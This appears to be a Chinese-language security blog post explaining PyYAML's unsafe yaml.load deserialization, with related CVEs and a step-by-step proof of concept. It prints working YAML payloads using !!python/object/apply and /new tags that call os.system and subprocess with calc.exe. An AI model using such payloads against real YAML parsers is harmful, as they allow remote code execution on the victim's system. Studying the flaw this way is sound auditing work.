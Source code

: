 Title:Python PyYAML反序列化漏洞实验和payload构造
Date: 2017-09-22 10:20
Category: python,漏洞
Tags: python,PyYAML,反序列化,漏洞
Slug: 
Authors: bit4
Summary: 

### 0x0 概述

**什么程序存在漏洞：**

使用了PyYAML这个库并且使用了yaml.load而不是yaml.safe_load函数来解析yaml文件的程序

**代码审计关键词：**

import yaml

yaml.load(

**已知相关漏洞：**

Remote Code Execution Vulnerability in Ansible-Vault Library. (CVE-2017-2809)

<https://pypi.python.org/pypi/ansible-vault/1.0.4> ansible-vault <=1.0.4存在这个漏洞，在1.0.5中完成了修复

Remote Code Execution Vulnerability in Tablib. (CVE-2017-2810)

### 0x1 yaml和序列化

yaml和xml、json等类似，都是标记类语言，有自己的语法格式。各个支持yaml格式的语言都会有自己的实现来进行yaml格式的解析（读取和保存），其中PyYAML就是python的一个yaml库。

除开 YAML 格式中常规的列表、字典和字符串整形等类型转化外（基本数据类型），各个语言的 YAML 解析器或多或少都会针对其语言实现一套特殊的**对象转化规则**（也就是序列化和反序列化，这是关键点，是这个漏洞存在的前提)。比如：PyYAML 在解析数据的时候遇到特定格式的时间数据会将其自动转化为 Python 时间对象

- 序列化： 将数据结构或对象转换成二进制串（字节序列）的过程
- 反序列化：将在序列化过程中所生成的二进制串转换成数据结构或者对象的过程

将如下内容保存到sample.yml

```
date: !!str 2016-03-09
date1:  2016-03-09
weekday: Wednesday
weather: sunny
```

然后在同一目录下运行如下python 代码：

```
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

import yaml

print(yaml.load(file('sample.yml', 'r')))
```

可以看到如下结构，有“!!str”强制类型转换的，就成了字符串格式；没有类型转换的就是python中datetime.date对象。

图一

![img](img/pyyaml/1.png)

### **0x2** 代码执行PoC构造的尝试

**以笔者目前初浅的理解，要实现代码执行，就需要序列化和反序列的内容中出现该编程语言中的对象（函数、类），因为的对象的反序列化，是在构建一个对象的实例（实例化的过程）。如果一个对象中有函数的定义，有可执行代码，那么实例化后再通过方法调用或者其他的途径才能使其中的代码到执行。普通数据类型的反序列化只是变量相关的初始化、赋值等操作，不会涉及到逻辑处理的代码块，所有不会有代码的执行！（普通数据类型 = 数据，对象= 函数代码+数据）。**

通过跟踪$PYTHON_HOME/lib/site-packages/yaml/constructor.py文件，查看 PyYAML 源码可以得到其针对 Python 语言特有的标签解析的处理函数对应列表，其中有三个和对象相关：

```
!!python/object:          =>  Constructor.construct_python_object

!!python/object/apply:    =>  Constructor.construct_python_object_apply

!!python/object/new:      =>  Constructor.construct_python_object_new

```

通过如下代码，来序列化test类中的内容，

```
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'
__filename__ = 'yaml_gen_poc.py'

import yaml
import os

class test:
    def __init__(self):
        os.system('calc.exe')

payload =  yaml.dump(test())

fp = open('simple.yml','w')
fp.write(payload)
```

可以看到simple.yml中写入的内容如下：

```
!!python/object:yaml_gen_poc.test {}
```

再运行yaml_verify.py来验证：

```
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'
__filename__ = "yaml_verify.py"

import yaml

yaml.load(file('simple.yml', 'r'))
```

图二

![img](img/pyyaml/2.png)

成功执行了命令，弹出计算器。但是yaml_verify.py的成功运行，需要依赖yaml_gen_poc.py，因为它会根据yml文件中的指引去读取yaml_gen_poc.py中的test这个对象（类）。如果删除yaml_gen_poc.py，也将运行失败。

### **0x3 构造通用payload**

那么我们怎样消除这个依赖呢？就是将其中的类、或者函数 换成python标准库中的类或者函数。

直接修改yml文件为：

```
!!python/object:os.system ["calc.exe"]
```

再运行，失败（显示参数未传递：TypeError: system() takes exactly 1 argument (0 given)），尝试查看源码、并变换yml文件中语句格式，均未成功！（疑难点）。

修改为以下2种均成功，通过源码得知，new其实是调用了apply，他们的不同的地方是创建对象的方式，这里可以大致认为它们是一样的。

```
!!python/object/apply:os.system ["calc.exe"]
```

```
!!python/object/new:os.system ["calc.exe"]
```

既然解决了依赖问题，那我们就尝试构建一些有用的poc吧，从官方标准库里找可以用来执行命令的函数 <https://docs.python.org/2/library/index.html>

```
!!python/object/apply:subprocess.check_output [[calc.exe]]

!!python/object/apply:subprocess.check_output ["calc.exe"]

!!python/object/apply:subprocess.check_output [["calc.exe"]]

!!python/object/apply:os.system ["calc.exe"]

!!python/object/new:subprocess.check_output [["calc.exe"]]

!!python/object/new:os.system ["calc.exe"]

..................
```

本文测试代码地址

<https://github.com/bit4woo/code2sec.com/tree/master/code/YamlRCE>

### **0x4 参考**

<http://blog.talosintelligence.com/2017/09/vulnerability-spotlight-yaml-remote.html>

<http://rickgray.me/2016/03/09/pyyaml-tags-parse-to-command-execution.html>

<https://www.youtube.com/watch?v=kjZHjvrAS74>